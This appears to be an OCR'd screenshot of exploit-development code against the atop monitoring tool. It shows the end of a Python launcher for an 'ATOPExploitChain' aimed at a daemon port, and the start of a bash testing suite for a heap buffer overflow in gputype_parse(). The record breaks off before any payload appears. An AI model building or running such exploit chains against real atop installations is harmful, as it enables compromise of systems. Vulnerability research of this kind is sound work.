 def main():
    if len(sys.argv) > 1:
        target_host = sys.argv[1]
    else:
        target_host = "127.0.0.1"
        
    if len(sys.argv) > 2:
        daemon_port = int(sys.argv[2])
    else:
        daemon_port = 4321
        
    exploit_chain = ATOPExploitChain(target_host, daemon_port)
    exploit_chain.exploit()

if __name__ == "__main__":
    main()


exploit_test_script
[16:50:02]
#!/bin/bash
# ATOP Exploit Testing and Validation Script
# Tests all developed exploits against vulnerable ATOP installation

echo "=========================================="
echo "ATOP EXPLOIT TESTING SUITE"
echo "Testing TIER 1 Critical Vulnerabilities"
echo "=========================================="

# Configuration
TARGET_HOST="127.0.0.1"
DAEMON_PORT=4321
ATOP_BINARY="/atop-vuln/atop"
EXPLOIT_DIR="/tmp/atop_exploits"

# Create exploit directory
mkdir -p $EXPLOIT_DIR
cd $EXPLOIT_DIR

echo "[+] Setting up exploit testing environment..."

# Function to test heap buffer overflow exploit
test_heap_overflow() {
    echo ""
    echo "=== TESTING HEAP BUFFER OVERFLOW EXPLOIT ==="
    echo "Target: gputype_parse() in gpucom.c"
    echo "CWE-122, CWE-805 | CVSS 9.5/10"
    
